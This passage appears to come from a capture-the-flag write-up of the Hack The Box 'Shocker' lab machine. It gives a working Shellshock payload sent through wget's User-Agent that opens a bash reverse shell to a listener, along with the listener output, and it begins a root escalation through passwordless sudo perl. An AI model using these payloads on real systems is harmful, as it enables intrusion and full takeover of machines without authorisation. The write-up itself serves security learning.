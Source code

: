 **Note**: I'm not using netcat here to connect because I'm not sure If it is installed on the target machine.

Where:

- `bash -i` invokes bash with an 'interactive' option
- `>&` redirects stdout and stderr to the specified target
- `/dev/tcp/10.10.14.18/4444` is a TCP client connection to IP/PORT
- `0>&1` redirects stdin (0) to stdout (1), so the opened TCP connection is used to read the input

Another way to accomplish this could be done with the *wget* command as follows:

{{< highlight bash >}}
wget -U '() { test;}; echo; /bin/bash -i>& /dev/tcp/10.10.14.18/4444 0>&1' http://10.10.10.56/cgi-bin/user.sh
--2020-06-16 18:55:20--  http://10.10.10.56/cgi-bin/user.sh
Connecting to 10.10.10.56:80... connected.
HTTP request sent, awaiting response...
{{< /highlight >}}

I can see the connection coming back to my netcat listener:

{{< highlight html >}}

nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.56] 45352
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly

{{< /highlight >}}

# Privilege escalation

Let's see what the user shelly can sudo without providing a password:

{{< highlight html >}}

shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

{{< /highlight >}}

She can run the perl program with root privilege, great! That means that I can upload a perl reverse shell on the machine and run it with root privileges in order to have a connection back on my machine!

Let's first set up a netcat listener:
